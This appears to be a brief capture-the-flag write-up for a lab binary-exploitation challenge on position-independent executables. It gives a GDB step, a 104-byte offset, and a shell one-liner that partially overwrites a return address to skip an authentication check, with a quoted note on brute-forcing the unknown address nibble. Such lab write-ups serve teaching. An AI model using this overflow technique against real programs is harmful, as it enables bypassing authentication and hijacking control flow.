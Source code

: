# PIEs (easy)

1. GDB -> `disas win_authed` -> the address of instruction after auth check is **0x237e**
2. As told in the debug output, the return address from challenge() is stored at 104 bytes from start of input buffer.

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x7e\x23" | /challenge/binary-exploitation-pie-overflow-w
    ```

> we need to write two bytes, then one of those nibbles (the fourth least-significant one) will be a guess, and it will be incorrect 15 of 16 times. This is okay: we can just run our exploit a few times until it works (statistically, ~50% chance after 11 times and ~90% chance after 36 times)
